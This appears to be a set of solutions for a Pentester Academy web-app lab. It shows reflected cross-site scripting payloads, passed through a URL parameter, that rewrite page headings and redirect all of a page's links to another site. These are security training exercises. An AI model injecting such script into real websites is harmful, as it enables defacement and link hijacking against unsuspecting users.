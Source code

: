 
### Target

    https://www.pentesteracademy.com/course?id=11

### Prereq

Include this in your `.bashrc`:

    https://stackoverflow.com/questions/296536/how-to-urlencode-data-for-curl-command/10660730#10660730

### Task 1

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/1

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/1?url=<payload>

Payloads generation:
rawurlencode '<script>document.getElementsByTagName("h2")[2].innerHTML = "Modified you"</script>'
rawurlencode '<script>document.getElementsByTagName("h1")[0].innerHTML = "Found you"</script>'
```

### Task 2

    https://pentesteracademylab.appspot.com/lab/webapp/jfp/2

**Solution**

```
https://pentesteracademylab.appspot.com/lab/webapp/jfp/2?url=<payload>

Payload generation:
rawurlencode '<script>for (i=0;i<document.getElementsByTagName("a").length;++i) { document.getElementsByTagName("a")[i].href = "http://PentesterAcademy.com/topics"; }</script>'
